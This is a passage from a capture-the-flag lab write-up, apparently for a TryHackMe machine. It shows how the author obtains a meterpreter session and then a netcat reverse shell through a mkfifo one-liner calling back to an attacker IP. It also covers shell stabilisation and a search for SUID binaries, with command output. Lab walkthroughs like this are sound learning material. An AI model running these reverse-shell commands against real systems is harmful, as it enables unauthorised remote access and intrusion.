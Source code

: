 Let's set the options and exploit to have a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) :

```
meterpreter > 
```

### Shell Stabilization

Now that we have a meterpreter connection, we can get the [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) by typing the command `shell` but this shell is unstable so let's do some [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) after transfered it to our machine :

- On the unstable shell `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.8.162.183 4444 >/tmp/f`
- On attacking system `nc -lvnp 4444`  [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
┌──(mdn0x㉿mdn0xonKali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.181.47] 60502
bash: cannot set terminal process group (811): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html/elFinder/php$ ls

```

Now stabilize :

```
www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ export TERM=xterm

www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ ^Z

zsh: suspended  nc -lvnp 4444

┌──(mdn0x㉿mdn0xonKali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444
                               reset

```

Once we have a stable shell let’s check what are the processes that can be run as sudo user `find / -type f -perm -u=s -ls 2>/dev/null` :

```
www-data@ip-10-10-181-47:/home/think$ find / -type f -perm -u=s -ls 2>/dev/null
      297    129 -rwsr-xr-x   1 root     root       131832 May 27  2023 /snap/snapd/19457/usr/lib/snapd/snap-confine
      847     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /snap/core20/1950/usr/bin/chfn
      853     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /snap/core20/1950/usr/bin/chsh
      922     87 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /snap/core20/1950/usr/bin/gpasswd
     1006     55 -rwsr-xr-x   1 root     root        55528 May 30  2023 /snap/core20/1950/usr/bin/mount
     1015     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /snap/core20/1950/usr/bin/newgrp
     1030     67 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /snap/core20/1950/usr/bin/passwd
```
